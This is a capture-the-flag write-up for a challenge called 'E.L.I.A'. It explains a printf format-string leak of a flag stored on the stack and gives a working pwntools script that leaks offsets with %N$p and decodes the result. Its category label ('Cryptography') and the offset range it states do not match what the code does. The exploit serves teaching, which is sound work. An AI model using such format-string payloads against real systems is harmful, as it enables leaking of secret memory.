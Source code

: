 # E.L.I.A
## Challenge
This challenge first reads the flag from the file `flag.txt` and saves it on the **stack**. Then, it requests input from the user and subsequently prints it insecurely using `printf` without any **defined format**.

This executable can therefore be exploited if the correct offsets on the stack of the flag (from 8 to 13) are found and used together with `%p` in the format `%x$p` where *x* is the offset.

## Solution
```py
#!/usr/bin/env python3
from pwn import *

# Change this to remote if you want to run it on remote server
if args.REMOTE:
    r = remote('localhost', 1337) # change host and port
else:
    r = process('./pwn2')

r.recvuntil(b'?\n')
PAYLOAD = b''
for i in range(8, 13):
    PAYLOAD += f'%{i}$p'.encode()

r.sendline(PAYLOAD)
flag = [int(i, 16) for i in r.recvline().decode().split('0x')[1:]]
pascal = ''
for i in flag:
    pascal += i.to_bytes(8, 'little').decode()

pascal = pascal.replace('\x00', '')
print(pascal)
```

## Author
**Author**: [`@AlBovo`](https://github.com/AlBovo/) <br>
**Date**: 2024-07-19 <br>
**Category**: Cryptography